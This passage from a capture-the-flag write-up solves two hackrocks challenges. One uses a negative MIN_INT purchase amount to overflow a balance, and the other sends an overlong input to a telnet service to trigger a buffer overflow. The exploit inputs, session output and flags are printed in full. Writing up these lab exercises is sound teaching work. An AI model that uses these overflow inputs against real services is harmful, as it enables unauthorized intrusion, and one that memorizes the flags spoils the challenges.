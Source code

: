 Once again, `mluis` suggested using `MAX` values, e.g. `MAX_INT` or `MIN_INT` given the inputs are always numeric. Doing that trick, giving the `MIN_INT` as input to option `1` (`-2147483648`), we can have MAX MONEY:
```bash
1. buy chocolate $1
2. buy token $100
your money $10
choose: 1
how much> -2147483648
1. buy chocolate $1
2. buy token $100
your money $2147483658
choose: 2
the token is: flag{n3gativ3_input_and_m0re_money}
```

And we get the flag: `flag{n3gativ3_input_and_m0re_money}`.

## Ovlo

>You will find the service at the following host:
>**challenges.hackrocks.com:37881**
>
>Ready? Then don't waste your time and go ahead!  
>**NOTE**: No other ports are part of this challenge.

This challenge, once again, gives us a shell to play with, as well as the C source code of the service running in port 37881.

So, connecting to it:
```bash
❯ telnet challenges.hackrocks.com 37881
Trying 95.216.99.248...
Connected to challenges.hackrocks.com.
Escape character is '^]'.
vent anything to me
```
So we are given an "infinite" input box, `vent anything to me`. Without even looking at the sauce, we can enter a lot of `a` to see what happens!
```bash
vent anything to me
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
the flag is flag{m0r3_th4n_72_n1ce!}

Connection closed by foreign host.
```

Ah! Just a plain trivial buffer overflow, and we got the flag, `flag{m0r3_th4n_72_n1ce!}`.

`mluis` did spend some time looking at the binary source code, and found out that there is an signal handler for `SIGSEGV` that prints the flag if any part of the code does an *illegally access or modify memory*, typically caused by *uninitialized or NULL pointer values or by memory overlays*.
